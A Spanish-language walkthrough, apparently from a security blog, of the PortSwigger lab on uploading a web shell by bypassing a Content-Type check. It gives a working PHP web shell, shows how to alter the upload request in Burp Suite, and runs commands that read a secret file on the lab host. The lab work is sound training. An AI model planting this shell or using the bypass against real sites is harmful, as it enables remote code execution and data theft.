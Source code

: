 ```yaml
---
title: Web shell upload via Content-Type restriction bypass
description: Laboratorio de Portswigger sobre File Upload
date: 2024-11-24 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - File Upload
tags:
  - Portswigger Labs
  - File Upload
  - Web shell upload via Content-Type restriction bypass
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `función` de carga de imágenes `vulnerable` que intenta `evitar` que los usuarios `suban` tipos de `archivos inesperados`, pero se basa en verificar una entrada controlada por el usuario para hacerlo. Para `resolver` el `laboratorio`, debemos `subir` una `web shell` básica en `PHP`, usarla para `extraer` el `contenido` del archivo `/home/carlos/secret` y luego usar este `secreto` utilizando el botón proporcionado en la barra del laboratorio. Podemos `iniciar sesión` en nuestra `cuenta` usando las siguientes credenciales: `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/File-Upload-Lab-2/image_1.png)

Pulsamos en `My account` e `iniciamos sesión` con las credenciales `wiener:peter`

![](/assets/img/File-Upload-Lab-2/image_2.png)

Vemos que existe un `campo` de `subida` de `archivos`

![](/assets/img/File-Upload-Lab-2/image_3.png)

Si `inspeccionamos` con donde se `aloja` la `imagen` vemos que es en la ruta `/resources/images`

![](/assets/img/File-Upload-Lab-2/image_4.png)

Nos `creamos` un `archivo` llamado `shell.php` y lo `subimos`

```
<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Al intentar subirlo vemos que nos da este `error`

![](/assets/img/File-Upload-Lab-2/image_5.png)

`Subimos` el `archivo` nuevamente y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/File-Upload-Lab-2/image_6.png)

Cambiamos el `Content-Type` a `image/png` y `subimos` el `archivo`, posteriormente abrimos nuevamente el `inspector` de `chrome` y vemos que el `archivo` subido se `aloja` en `/files/avatars`

![](/assets/img/File-Upload-Lab-2/image_7.png)

Si accedemos a `https://0aa000d704efa5eb8202c09f005a0081.web-security-academy.net/files/avatars/shell.php?cmd=whoami` veremos que tenemos un `RCE (Remote Code Execution)`

![](/assets/img/File-Upload-Lab-2/image_8.png)

Si accedemos a `https://0aa000d704efa5eb8202c09f005a0081.web-security-academy.net/files/avatars/shell.php?cmd=ls%20/home/carlos` vemos un `archivo` llamado `secret`

![](/assets/img/File-Upload-Lab-2/image_9.png)

Leemos la información de ese archivo con `https://0aa000d704efa5eb8202c09f005a0081.web-security-academy.net/files/avatars/shell.php?cmd=cat%20/home/carlos/secret`

![](/assets/img/File-Upload-Lab-2/image_10.png)

Pulsamos en `Submit solution` y `mandamos` nuestra `solución`

![](/assets/img/File-Upload-Lab-2/image_11.png)
